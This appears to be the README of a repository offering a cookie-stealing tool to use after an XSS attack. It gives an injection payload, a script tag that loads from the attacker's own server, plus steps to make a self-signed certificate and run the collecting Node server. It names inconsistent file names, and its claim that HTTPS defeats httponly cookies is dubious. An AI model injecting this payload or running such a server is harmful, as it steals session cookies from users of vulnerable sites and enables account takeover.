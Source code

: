Steal cookies with this script. Requires XSS attack prior. Inject this:
```
<script src="https://<your server>:<your port>">
```
Go into simpleServer.js, and change the connection parameters to suit your setup.

This is an https server, because many sites have httponly set for cookies. In order for this to work, we need to create a self-signed certificate. On \*nix systems, this can be done with openssl:
```
$ openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365
$ openssl rsa -in key.pem -out keyDecrypt.pem
```
You will be prompted to create a password in the first command, and to enter it again in the second command. You will also be asked for basic information, such as your organization and location, for the certificate. The certificate will not be signed by any root authority (obviously.

Run the server with:
```
node simpleServe.js
```
You must have node installed. No node modules, other than the default http module that comes with node, are required to run this.

This attack assumes that the site is vulnerable to cookie stealing. There are plenty of protections that may prevent this attack from working properly.
